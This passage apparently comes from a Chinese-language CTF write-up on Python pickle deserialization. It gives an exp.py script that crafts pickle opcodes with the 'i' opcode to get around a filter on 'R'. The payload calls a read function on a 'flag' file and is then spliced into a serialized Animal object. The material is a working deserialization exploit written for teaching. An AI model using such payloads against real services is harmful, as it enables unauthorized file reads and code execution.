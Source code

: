 - `read()`

  - ```python
    def read(filename, encoding='utf-8'):
        with open(filename, 'r', encoding=encoding) as fin:
            return fin.read()
    ```

仍然以上面webtmp(究极缝合怪)的题为例，我们可以利用上面的函数，创建一个Animal的实例，然后将name或category的值设置为read wrapper的返回值

exp.py

```python
import pickle
import struct
import base64

def read(filename, encoding='utf-8'):
    with open(filename, 'r', encoding=encoding) as fin:
        return fin.read()

def exploit(filename):
    payload_prefix = b'''('''
    payload_body = b"X" + bytes(struct.pack("<I", len(filename))) + bytes(filename, encoding="utf-8")
    payload_suffix = b'''i__main__\nread\n.'''
    payload = payload_prefix + payload_body + payload_suffix
    assert b'R' not in payload
    return payload

def main():
    payload = exploit("flag")
    print("Payload:", payload)
# b'(X\x04\x00\x00\x00flagi__main__\nread\n.'
    print("Length:", len(payload))
    print("Base64:", base64.b64encode(payload))

if __name__ == "__main__":
    main()
```

![image-20210811193545692](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811193545692.png)

再把这一部分的payload缝合到创建Animal实例的Opcode中去

```python
# 原: name='x',category='y'
b'\x80\x03c__main__\nAnimal\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x01\x00\x00\x00xq\x04X\x08\x00\x00\x00categoryq\x05X\x01\x00\x00\x00yq\x06ub.'
# 缝合 应该能看出来改在哪里了
b'\x80\x03c__main__\nAnimal\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03(X\x04\x00\x00\x00flagi__main__\nread\nq\x04X\x08\x00\x00\x00categoryq\x05X\x01\x00\x00\x00yq\x06ub.'
```

![image-20210811195932427](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811195932427.png)
